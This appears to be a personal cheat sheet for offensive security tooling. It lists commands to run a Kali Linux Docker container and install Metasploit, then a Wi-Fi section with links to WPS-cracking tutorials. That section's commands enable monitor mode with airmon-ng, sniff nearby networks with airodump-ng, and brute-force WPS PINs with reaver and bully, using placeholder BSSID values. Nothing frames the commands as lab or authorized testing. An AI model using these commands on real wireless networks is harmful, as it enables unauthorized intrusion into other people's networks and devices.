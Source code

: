 # kali
https://www.kali.org/news/official-kali-linux-docker-images/

docker pull kalilinux/kali-rolling:latest
docker run -t -i --name kali kalilinux/kali-rolling /bin/bash
apt update && apt -y install metasploit-framework

# wifi
https://blog.csdn.net/qq_34489091/article/details/80229477
https://www.cnblogs.com/diligenceday/p/6344698.html?utm_source=itdadao&utm_medium=referral
https://aquilao.github.io/Blog/Breaking_a_WPS_PIN_to_Get_the_Password_with_Bully/

ifconfig
iwconfig

airmon-ng

airmon-ng start wlan0

airodump-ng wlan0mon

reaver -i wlan0mon -b BSSID -vv

reaver -i wlan0mon -b xx:xx -p ping -vv

bully mon0 -b BSSID -e ESSID -c channel
